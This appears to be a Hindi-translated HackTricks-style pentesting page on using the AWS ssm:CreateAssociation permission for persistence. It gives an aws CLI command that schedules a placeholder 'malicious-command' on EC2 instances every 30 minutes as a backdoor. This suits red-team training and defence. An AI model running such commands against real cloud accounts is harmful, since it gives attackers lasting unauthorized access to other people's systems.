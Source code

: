 # AWS - SSM Perssitence

{{#include ../../../banners/hacktricks-training.md}}

## SSM

अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### Using ssm:CreateAssociation for persistence

एक हमलावर जिसके पास अनुमति **`ssm:CreateAssociation`** है, वह SSM द्वारा प्रबंधित EC2 इंस्टेंस पर स्वचालित रूप से कमांड निष्पादित करने के लिए एक State Manager Association बना सकता है। इन एसोसिएशनों को एक निश्चित अंतराल पर चलाने के लिए कॉन्फ़िगर किया जा सकता है, जिससे ये इंटरैक्टिव सत्रों के बिना बैकडोर जैसी स्थिरता के लिए उपयुक्त हो जाते हैं।
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> यह स्थिरता विधि तब तक काम करती है जब तक EC2 इंस्टेंस को Systems Manager द्वारा प्रबंधित किया जा रहा है, SSM एजेंट चल रहा है, और हमलावर के पास संघ बनाने की अनुमति है। यह इंटरैक्टिव सत्रों या स्पष्ट ssm:SendCommand अनुमतियों की आवश्यकता नहीं है। **महत्वपूर्ण:** `--schedule-expression` पैरामीटर (जैसे, `rate(30 minutes)`) को AWS के न्यूनतम अंतराल 30 मिनट का सम्मान करना चाहिए। तात्कालिक या एक बार के निष्पादन के लिए, `--schedule-expression` को पूरी तरह से छोड़ दें — संघ निर्माण के बाद एक बार निष्पादित होगा।

{{#include ../../../banners/hacktricks-training.md}}
